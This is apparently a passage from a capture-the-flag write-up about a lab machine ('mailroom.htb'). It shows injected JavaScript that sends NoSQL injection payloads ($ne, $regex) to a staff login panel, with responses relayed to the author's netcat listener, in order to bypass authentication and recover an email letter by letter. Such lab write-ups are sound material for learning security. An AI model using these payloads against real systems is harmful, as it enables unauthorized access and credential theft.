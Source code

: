 It looks like we need to submit a valid username/password combination. 

### Abusing NoSQL injection to leak credentials

The Gitea source code tells us this is mongodb, so when I explore noSQL injection, we see that this is vulnerable:

edits in at.js
```js
fetch_req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
fetch_req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
fetch_req.send("email[$ne]=asdf&password[$ne]=asdf");
```
response:
```bash
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.209] 57972
POST / HTTP/1.1
Host: 10.10.14.35:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Type: text/plain;charset=UTF-8
Content-Length: 158
Origin: http://127.0.0.1
Connection: keep-alive

Resp Code: 401
Page Source:
{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
```

By labeling email and password as `[$ne]` or "not equal to" asdf, we bypass login. However, we can achieve the same results with vague regex statements. By abusing regex guesses, we can piece together a valid email and password combination, letter by letter:

```js
fetch_req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
fetch_req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
fetch_req.send("email[$regex]=^t*&password[$ne]=asdf");
```

In the above code, I designate the start of the string as `^`, guess the first letter, then wildcard the rest of the string with `*`. The regex will only pass when the guessed first letter is correct, the `t`. This method will take forever, so I used regex ranges to cover multiple letter guesses at once. By guessing half the alphabet in the first query, I can eliminate multiple letters that don't fit. Not as fast as creating a script to automate this, but still saves considerable time:

```js
fetch_req.send("email[$regex]=^t{a-m}.*&password[$ne]=asdf");
```

